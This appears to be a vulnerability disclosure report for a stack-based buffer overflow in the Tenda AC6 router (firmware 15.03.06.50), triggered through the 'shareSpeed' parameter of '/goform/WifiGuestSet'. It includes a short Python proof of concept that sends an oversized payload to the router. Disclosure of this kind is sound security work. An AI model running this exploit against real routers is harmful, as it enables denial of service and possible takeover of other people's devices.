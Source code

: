 # Bug Report: Buffer Overflow in Tenda AC6 15.03.06.50 Router
A critical stack-based buffer overflow vulnerability has been discovered in the Tenda AC6 router firmware version 15.03.06.50. The vulnerability exists in the `/goform/WifiGuestSet` HTTP request handler and can be exploited by remote attackers to achieve code execution or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
A buffer overflow exists in the HTTP request handler for the `/goform/WifiGuestSet` endpoint. The vulnerability is triggered when processing requests containing the following parameters with excessive data lengths: `shareSpeed`.

![alt text](image-4.png)
![alt text](image-5.png)
![alt text](image-6.png)
![alt text](image-2.png)
![alt text](image-3.png)

## poc
![alt text](image.png)
![alt text](image-1.png)

## reproduce

```python
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'shareSpeed': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0xf0 * b'A'

send_payload("http://10.10.10.1/goform/WifiGuestSet", payload)
```
